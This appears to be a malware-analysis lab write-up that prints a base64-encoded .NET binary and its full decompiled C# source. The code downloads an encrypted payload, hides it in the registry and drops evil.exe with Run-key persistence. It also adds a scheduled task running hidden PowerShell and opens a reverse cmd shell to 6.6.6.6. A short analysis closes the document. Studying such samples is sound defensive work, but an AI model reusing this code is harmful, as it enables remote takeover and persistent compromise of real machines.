AABAAAAAAAAAAAAAAAAADcIAAAEAAAAAAAAAAAAAADJAX4AAAAAAAQAAAAAAAAAAAAAAMkBJQIAAAAABAAAAAAAAAAAAAAAyQFEBQAAAAADAAIAAAAAPD5jX19EaXNwbGF5Q2xhc3M1XzAAPFJ1blBheWxvYWQ+Yl9fMABNaWNyb3NvZnQuV2luMzIAU0hBMjU2AGdldF9VVEY4ADxNb2R1bGU+AFN5c3RlbS5JTwBnZXRfSVYAc2V0X0lWAGdldF9EYXRhAERvd25sb2FkRGF0YQBtc2NvcmxpYgBUaHJlYWQARG93bmxvYWRQYXlsb2FkAEluc3RhbGxQYXlsb2FkAFJ1blBheWxvYWQAcGF5bG9hZABBZGQAYWRkX091dHB1dERhdGFSZWNlaXZlZABTeXN0ZW0uQ29sbGVjdGlvbnMuU3BlY2lhbGl6ZWQAUmVhZFRvRW5kAEFwcGVuZABzZXRfSXNCYWNrZ3JvdW5kAHNldF9Nb2RlAEZpbGVNb2RlAFBhZGRpbmdNb2RlAENyeXB0b1N0cmVhbU1vZGUAQ2lwaGVyTW9kZQBnZXRfVW5pY29kZQBTeXN0ZW0uTmV0LkNhY2hlAElEaXNwb3NhYmxlAEZpbGUAZ2V0X01haW5Nb2R1bGUAUHJvY2Vzc01vZHVsZQBzZXRfV2luZG93U3R5bGUAUHJvY2Vzc1dpbmRvd1N0eWxlAGdldF9GaWxlTmFtZQBzZXRfRmlsZU5hbWUAR2V0RmlsZU5hbWUAQmVnaW5PdXRwdXRSZWFkTGluZQBXcml0ZUxpbmUAb3V0TGluZQBTZWN1cml0eVByb3RvY29sVHlwZQBTeXN0ZW0uQ29yZQBEaXNwb3NlAENyZWF0ZQBXcml0ZQBDb21waWxlckdlbmVyYXRlZEF0dHJpYnV0ZQBHdWlkQXR0cmlidXRlAERlYnVnZ2FibGVBdHRyaWJ1dGUAQ29tVmlzaWJsZUF0dHJpYnV0ZQBBc3NlbWJseVRpdGxlQXR0cmlidXRlAEFzc2VtYmx5VHJhZGVtYXJrQXR0cmlidXRlAFRhcmdldEZyYW1ld29ya0F0dHJpYnV0ZQBBc3NlbWJseUZpbGVWZXJzaW9uQXR0cmlidXRlAEFzc2VtYmx5Q29uZmlndXJhdGlvbkF0dHJpYnV0ZQBBc3NlbWJseURlc2NyaXB0aW9uQXR0cmlidXRlAENvbXBpbGF0aW9uUmVsYXhhdGlvbnNBdHRyaWJ1dGUAQXNzZW1ibHlQcm9kdWN0QXR0cmlidXRlAEFzc2VtYmx5Q29weXJpZ2h0QXR0cmlidXRlAEFzc2VtYmx5Q29tcGFueUF0dHJpYnV0ZQBSdW50aW1lQ29tcGF0aWJpbGl0eUF0dHJpYnV0ZQBzZXRfVXNlU2hlbGxFeGVjdXRlAFRvQnl0ZQBHZXRWYWx1ZQBTZXRWYWx1ZQBzZXRfRXhwZWN0MTAwQ29udGludWUAUmVtb3ZlAElubm9jZW50LmV4ZQBTeXN0ZW0uVGhyZWFkaW5nAHNldF9QYWRkaW5nAHNldF9FbmNvZGluZwBTeXN0ZW0uUnVudGltZS5WZXJzaW9uaW5nAEZyb21CYXNlNjRTdHJpbmcAVG9TdHJpbmcAR2V0U3RyaW5nAFN1YnN0cmluZwBzZXRfRXJyb3JEaWFsb2cARmx1c2gAZHJvcFBhdGgAR2V0Rm9sZGVyUGF0aABnZXRfTGVuZ3RoAFJlcXVlc3RDYWNoZUxldmVsAGdldF9TZWN1cml0eVByb3RvY29sAHNldF9TZWN1cml0eVByb3RvY29sAHVybABGaWxlU3RyZWFtAE5ldHdvcmtTdHJlYW0AQ3J5cHRvU3RyZWFtAEdldFN0cmVhbQBNZW1vcnlTdHJlYW0AU3lzdGVtAFN5bW1ldHJpY0FsZ29yaXRobQBJQ3J5cHRvVHJhbnNmb3JtAE1haW4AU3lzdGVtLlJlZmxlY3Rpb24ATmFtZVZhbHVlQ29sbGVjdGlvbgBXZWJIZWFkZXJDb2xsZWN0aW9uAEFyZ3VtZW50TnVsbEV4Y2VwdGlvbgBTdHJpbmdDb21wYXJpc29uAGdldF9TdGFydEluZm8AUHJvY2Vzc1N0YXJ0SW5mbwBMYXVuY2hDb21tYW5kTGluZUFwcABTdHJlYW1SZWFkZXIAVGV4dFJlYWRlcgBBZXNDcnlwdG9TZXJ2aWNlUHJvdmlkZXIAU3RyaW5nQnVpbGRlcgBTcGVjaWFsRm9sZGVyAEJ1ZmZlcgBTZXJ2aWNlUG9pbnRNYW5hZ2VyAENtZE91dHB1dERhdGFIYW5kbGVyAERhdGFSZWNlaXZlZEV2ZW50SGFuZGxlcgBDdXJyZW50VXNlcgBTdHJlYW1Xcml0ZXIAc3RyZWFtV3JpdGVyAFRleHRXcml0ZXIAc2V0X1JlZGlyZWN0U3RhbmRhcmRFcnJvcgAuY3RvcgBDcmVhdGVEZWNyeXB0b3IAU3lzdGVtLkRpYWdub3N0aWNzAERlY3J5cHRTdHJpbmdGcm9tQnl0ZXNfQWVzAFN5c3RlbS5SdW50aW1lLkludGVyb3BTZXJ2aWNlcwBTeXN0ZW0uUnVudGltZS5Db21waWxlclNlcnZpY2VzAERlYnVnZ2luZ01vZGVzAFJlYWRBbGxCeXRlcwBEYXRhUmVjZWl2ZWRFdmVudEFyZ3MAVGFrZVRoaXMAQWRkVG9TY2h0YXNrcwBFcXVhbHMAZ2V0X0hlYWRlcnMAc2VuZGluZ1Byb2Nlc3MAR2V0Q3VycmVudFByb2Nlc3MAU3lzdGVtLk5ldC5Tb2NrZXRzAHNldF9Bcmd1bWVudHMARXhpc3RzAENvbmNhdABPYmplY3QAU3lzdGVtLk5ldABXYWl0Rm9yRXhpdABJbm5vY2VudABXZWJDbGllbnQAVGNwQ2xpZW50AEVudmlyb25tZW50AFRocmVhZFN0YXJ0AENvbnZlcnQAZ2V0X1N0YW5kYXJkSW5wdXQAc2V0X1JlZGlyZWN0U3RhbmRhcmRJbnB1dABzZXRfUmVkaXJlY3RTdGFuZGFyZE91dHB1dABTeXN0ZW0uVGV4dABjaXBoZXJUZXh0AHNldF9DcmVhdGVOb1dpbmRvdwBoZXgAU3RyaW5nVG9CeXRlQXJyYXkAVG9BcnJheQBzZXRfQ2FjaGVQb2xpY3kAUmVxdWVzdENhY2hlUG9saWN5AGdldF9LZXkAc2V0X0tleQBDcmVhdGVTdWJLZXkAT3BlblN1YktleQBSZWdpc3RyeUtleQBTeXN0ZW0uU2VjdXJpdHkuQ3J5cHRvZ3JhcGh5AEJsb2NrQ29weQBJbnN0YWxsUmVnaXN0cnkAR2V0UGF5bG9hZEZyb21SZWdpc3RyeQBJc051bGxPckVtcHR5AAAAAIIBYQBBAEIAMABBAEgAUQBBAGMAQQBCAHoAQQBEAG8AQQBMAHcAQQB2AEEARwBjAEEAYQBRAEIAMABBAEcAZwBBAGQAUQBCAGkAQQBDADQAQQBZAHcAQgB2AEEARwAwAEEATAB3AEIAdgBBAEgAVQBBAGMAdwBCAHcAQQBHA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
```

After I run the `base64` command and the `file` command, the output of the terminal is given as below. 


The ilspy result:

```c#
using System;
using System.Collections.Specialized;
using System.Diagnostics;
using System.IO;
using System.Net;
using System.Net.Cache;
using System.Net.Sockets;
using System.Reflection;
using System.Runtime.CompilerServices;
using System.Runtime.InteropServices;
using System.Runtime.Versioning;
using System.Security.Cryptography;
using System.Text;
using System.Threading;
using Microsoft.Win32;

[assembly: CompilationRelaxations(8)]
[assembly: RuntimeCompatibility(WrapNonExceptionThrows = true)]
[assembly: Debuggable(DebuggableAttribute.DebuggingModes.IgnoreSymbolStoreSequencePoints)]
[assembly: AssemblyTitle("ThereIsNothingToSee")]
[assembly: AssemblyDescription("")]
[assembly: AssemblyConfiguration("")]
[assembly: AssemblyCompany("Showcase")]
[assembly: AssemblyProduct("Innocent")]
[assembly: AssemblyCopyright("Showcase")]
[assembly: AssemblyTrademark("")]
[assembly: ComVisible(false)]
[assembly: Guid("12b739f7-2355-491e-a3cd-a8485d39d6d6")]
[assembly: AssemblyFileVersion("1.0.0.0")]
[assembly: TargetFramework(".NETFramework,Version=v4.0", FrameworkDisplayName = ".NET Framework 4")]
[assembly: AssemblyVersion("1.0.0.0")]
namespace Innocent;

internal class TakeThis
{
	private static StreamWriter streamWriter;

	private static void Main()
	{
		byte[] array = DownloadPayload(Encoding.Unicode.GetString(Convert.FromBase64String("aAB0AHQAcABzADoALwAvAGcAaQB0AGgAdQBiAC4AYwBvAG0ALwBvAHUAcwBwAGcALwBDAG8AbQBwAFMAZQBjAC8AcgBhAHcALwBtAGEAcwB0AGUAcgAvAEwAYQBiADMAXwBCAG8AdABuAGUAdABzAF8AYQBuAGQAXwBtAGEAbAB3AGEAcgBlAC8AbQBpAHMAYwAvAG0AYQBsAHcAYQByAGUALwBiAG8AbwBtAC4AZQBuAGMAcgB5AHAAdABlAGQA")));
		byte[] iV = StringToByteArray("222503488E34D554B0FEC555FA4A9569");
		byte[] key = StringToByteArray("B672EA3A555CB91998DE696C2304E4DF464765396E7D9D4CF6BA65ECB7E1324C");
		byte[] array2 = new byte[array.Length];
		Buffer.BlockCopy(array, 0, array2, 0, array2.Length);
		SHA256 val = SHA256.Create();
		try
		{
			InstallRegistry(DecryptStringFromBytes_Aes(array2, key, iV));
		}
		finally
		{
			((IDisposable)val)?.Dispose();
		}
		RunPayload(GetPayloadFromRegistry(), Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\evil.exe");
		AddToSchtasks();
		LaunchCommandLineApp();
	}

	public static byte[] StringToByteArray(string hex)
	{
		int length = hex.Length;
		byte[] array = new byte[length / 2];
		for (int i = 0; i < length; i += 2)
		{
			array[i / 2] = Convert.ToByte(hex.Substring(i, 2), 16);
		}
		return array;
	}

	private static byte[] GetPayloadFromRegistry()
	{
		using MemoryStream memoryStream = new MemoryStream(Convert.FromBase64String(Registry.CurrentUser.OpenSubKey("Software\\evil", true).GetValue("Payload").ToString()));
		return memoryStream.ToArray();
	}

	private static bool InstallPayload(string dropPath)
	{
		if (!Process.GetCurrentProcess().get_MainModule().get_FileName()
			.Equals(dropPath, StringComparison.CurrentCultureIgnoreCase))
		{
			FileStream fileStream = null;
			try
			{
				fileStream = (File.Exists(dropPath) ? new FileStream(dropPath, FileMode.Create) : new FileStream(dropPath, FileMode.CreateNew));
				byte[] array = File.ReadAllBytes(Process.GetCurrentProcess().get_MainModule().get_FileName());
				fileStream.Write(array, 0, array.Length);
				fileStream.Dispose();
				Registry.CurrentUser.CreateSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Run\\").SetValue(Path.GetFileName(dropPath), (object)dropPath);
				Process.Start(dropPath);
				return true;
			}
			catch
			{
				return false;
			}
		}
		return false;
	}

	private static void RunPayload(byte[] payload, string dropPath)
	{
		Thread thread = new Thread((ThreadStart)delegate
		{
			FileStream fileStream = null;
			try
			{
				fileStream = (File.Exists(dropPath) ? new FileStream(dropPath, FileMode.Create) : new FileStream(dropPath, FileMode.CreateNew));
				fileStream.Write(payload, 0, payload.Length);
				fileStream.Dispose();
				Registry.CurrentUser.CreateSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Run\\").SetValue(Path.GetFileName(dropPath), (object)dropPath);
				Process.Start(dropPath);
			}
			catch
			{
			}
		});
		thread.IsBackground = false;
		thread.Start();
	}

	private static string DecryptStringFromBytes_Aes(byte[] cipherText, byte[] Key, byte[] IV)
	{
		//IL_0038: Unknown result type (might be due to invalid IL or missing references)
		//IL_003e: Expected O, but got Unknown
		//IL_0077: Unknown result type (might be due to invalid IL or missing references)
		//IL_007e: Expected O, but got Unknown
		if (cipherText == null || cipherText.Length == 0)
		{
			throw new ArgumentNullException("cipherText");
		}
		if (Key == null || Key.Length == 0)
		{
			throw new ArgumentNullException("Key");
		}
		if (IV == null || IV.Length == 0)
		{
			throw new ArgumentNullException("IV");
		}
		string text = null;
		AesCryptoServiceProvider val = new AesCryptoServiceProvider();
		try
		{
			((SymmetricAlgorithm)val).set_Key(Key);
			((SymmetricAlgorithm)val).set_IV(IV);
			((SymmetricAlgorithm)val).set_Mode((CipherMode)1);
			((SymmetricAlgorithm)val).set_Padding((PaddingMode)2);
			ICryptoTransform val2 = ((SymmetricAlgorithm)val).CreateDecryptor(((SymmetricAlgorithm)val).get_Key(), ((SymmetricAlgorithm)val).get_IV());
			using MemoryStream memoryStream = new MemoryStream(cipherText);
			CryptoStream val3 = new CryptoStream((Stream)memoryStream, val2, (CryptoStreamMode)0);
			try
			{
				using StreamReader streamReader = new StreamReader((Stream)(object)val3);
				return streamReader.ReadToEnd();
			}
			finally
			{
				((IDisposable)val3)?.Dispose();
			}
		}
		finally
		{
			((IDisposable)val)?.Dispose();
		}
	}

	private static byte[] DownloadPayload(string url)
	{
		//IL_0000: Unknown result type (might be due to invalid IL or missing references)
		//IL_0006: Expected O, but got Unknown
		//IL_000c: Unknown result type (might be due to invalid IL or missing references)
		//IL_0016: Unknown result type (might be due to invalid IL or missing references)
		//IL_001e: Unknown result type (might be due to invalid IL or missing references)
		//IL_0028: Expected O, but got Unknown
		WebClient val = new WebClient();
		try
		{
			ServicePointManager.set_Expect100Continue(true);
			ServicePointManager.set_SecurityProtocol((SecurityProtocolType)(ServicePointManager.get_SecurityProtocol() | 0xFC0));
			val.set_CachePolicy(new RequestCachePolicy((RequestCacheLevel)1));
			((NameValueCollection)val.get_Headers()).Add("Cache-Control", "no-cache");
			val.set_Encoding(Encoding.UTF8);
			return new MemoryStream(val.DownloadData(url)).ToArray();
		}
		finally
		{
			((IDisposable)val)?.Dispose();
		}
	}

	private static void InstallRegistry(string Payload)
	{
		RegistryKey val = Registry.CurrentUser.OpenSubKey("Software\\evil", true);
		if (val == null)
		{
			val = Registry.CurrentUser.CreateSubKey("Software\\evil");
			val.SetValue("Payload", (object)Payload);
		}
		else if (val.GetValue("Payload") == null || !val.GetValue("Payload").ToString()!.Equals(Payload, StringComparison.CurrentCultureIgnoreCase))
		{
			val.SetValue("Payload", (object)Payload);
		}
	}

	private static void LaunchCommandLineApp()
	{
		//IL_0000: Unknown result type (might be due to invalid IL or missing references)
		//IL_0006: Expected O, but got Unknown
		//IL_0059: Unknown result type (might be due to invalid IL or missing references)
		//IL_005f: Expected O, but got Unknown
		//IL_0080: Unknown result type (might be due to invalid IL or missing references)
		//IL_0087: Expected O, but got Unknown
		//IL_00e2: Unknown result type (might be due to invalid IL or missing references)
		//IL_00ec: Expected O, but got Unknown
		ProcessStartInfo val = new ProcessStartInfo();
		val.set_CreateNoWindow(false);
		val.set_UseShellExecute(false);
		val.set_FileName("explorer");
		val.set_WindowStyle((ProcessWindowStyle)1);
		val.set_Arguments("\"https://i.redd.it/2ialma4xoiv41.jpg\"");
		try
		{
			Process val2 = Process.Start(val);
			try
			{
				val2.WaitForExit();
			}
			finally
			{
				((IDisposable)val2)?.Dispose();
			}
		}
		catch
		{
		}
		TcpClient val3 = new TcpClient("6.6.6.6", 443);
		try
		{
			using Stream stream = val3.GetStream();
			using StreamReader streamReader = new StreamReader(stream);
			streamWriter = new StreamWriter(stream);
			StringBuilder stringBuilder = new StringBuilder();
			Process val4 = new Process();
			val4.get_StartInfo().set_FileName("cmd.exe");
			val4.get_StartInfo().set_CreateNoWindow(true);
			val4.get_StartInfo().set_UseShellExecute(false);
			val4.get_StartInfo().set_RedirectStandardOutput(true);
			val4.get_StartInfo().set_RedirectStandardInput(true);
			val4.get_StartInfo().set_RedirectStandardError(true);
			val4.add_OutputDataReceived(new DataReceivedEventHandler(CmdOutputDataHandler));
			val4.Start();
			val4.BeginOutputReadLine();
			while (true)
			{
				stringBuilder.Append(streamReader.ReadLine());
				val4.get_StandardInput().WriteLine((object?)stringBuilder);
				stringBuilder.Remove(0, stringBuilder.Length);
			}
		}
		finally
		{
			((IDisposable)val3)?.Dispose();
		}
	}

	private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
	{
		StringBuilder stringBuilder = new StringBuilder();
		if (!string.IsNullOrEmpty(outLine.get_Data()))
		{
			try
			{
				stringBuilder.Append(outLine.get_Data());
				streamWriter.WriteLine((object?)stringBuilder);
				streamWriter.Flush();
			}
			catch (Exception)
			{
			}
		}
	}

	private static void AddToSchtasks()
	{
		//IL_0006: Unknown result type (might be due to invalid IL or missing references)
		//IL_000b: Unknown result type (might be due to invalid IL or missing references)
		//IL_0016: Unknown result type (might be due to invalid IL or missing references)
		//IL_002c: Unknown result type (might be due to invalid IL or missing references)
		//IL_0033: Unknown result type (might be due to invalid IL or missing references)
		//IL_003a: Unknown result type (might be due to invalid IL or missing references)
		//IL_0046: Expected O, but got Unknown
		string text = "powershell -ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden -NoExit -Command [System.Reflection.Assembly]::Load([System.Convert]::FromBase64String((Get-ItemProperty HKCU:\\Software\\evil\\).Payload)).EntryPoint.Invoke($Null,$Null)";
		ProcessStartInfo val = new ProcessStartInfo();
		val.set_FileName("schtasks");
		val.set_Arguments("/create /sc minute /mo 1 /tn LimeLoader /tr \"" + text + "\"");
		val.set_CreateNoWindow(true);
		val.set_ErrorDialog(false);
		val.set_WindowStyle((ProcessWindowStyle)1);
		Process.Start(val);
	}
}
```

**What is this executable doing? How it is trying to persist in the system? Is it dropping even more files?**

The analyzed executable is a malicious program designed to perform several harmful actions on a compromised system. It first downloads an encrypted payload from a remote server and decrypts it using AES encryption. The executable then attempts to achieve persistence on the system by writing the payload to the Windows Registry, creating a startup entry which is "Software\\evil", and saving the payload to a file. The decrypted payload is executed, potentially triggering further malicious actions. 

Below is the remote server link that the payload is downloaded from. 


Additionally, the executable establishes a connection to a remote command and control server with IP 6.6.6.6 and the port 443, enabling remote control of the compromised system. It opens a hidden instance of Windows Explorer to access a specified URL and sets up a process to execute arbitrary commands, with the output sent to the remote server. 

Furthermore, the executable creates a scheduled task to ensure long-term persistence, executing PowerShell code from the Registry. The code has the capability to download and execute additional malicious payloads. 

Thank You!
